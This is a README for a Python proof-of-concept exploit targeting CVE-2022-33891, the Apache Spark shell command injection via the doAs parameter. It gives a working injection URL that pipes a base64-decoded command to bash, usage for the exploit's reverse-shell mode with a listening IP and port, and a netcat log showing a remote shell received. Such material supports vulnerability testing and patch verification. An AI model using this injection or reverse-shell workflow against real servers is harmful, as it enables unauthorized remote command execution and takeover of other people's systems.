 # CVE-2022-33891
Apache Spark Shell Command Injection Vulnerability

A Python POC for exploiting the Apache Spark Shell Command Injection vulnerability.

## Affected Versions
Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

## Vulnerable component
```
http://localhost:8080/?doAs=`[command injection here]`
```
Example
```
http://localhost:8080/?doAs=`echo%20%22c2xlZXAgMTAK%22%20|%20base64%20-d%20|%20bash`
```
... sleeps for 10 seconds


## Setup
- Use python3 
- Install the dependencies: `$ pip3 install -r requirements.txt`



## Usage
```
Command optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to exploit.
  -p PORT, --port PORT  Exploit target's port.
  --revshell            Reverse Shell option.
  -lh LISTENINGHOST, --listeninghost LISTENINGHOST
                        Your listening host IP address.
  -lp LISTENINGPORT, --listeningport LISTENINGPORT
                        Your listening host port.
  --check               Checks if the target is
                        exploitable with a sleep test
  --verbose             Verbose mode

```

## Examples

Check to see if the target is vulnerable:
```
:~/Desktop/cve-2022-33891$ python3 exploit.py -u http://<Spark Server> -p 4044 --check --verbose

```


Execute a reverse shell:
```
:~/Desktop/cve-2022-33891$ python3 exploit.py -u http://<Spark Server> -p 4044 --revshell -lh 142.136.38.193 -lp 9002 --verbose
```


```
:~/Desktop/cve-2022-33891$ nc -nvlp 9002

Listening on 0.0.0.0 9002
Connection received on 142.136.38.193 52136
sh: 0: can't access tty; job control turned off
$ whoami
<user_id>
$ hostname
<Spark Server>
```
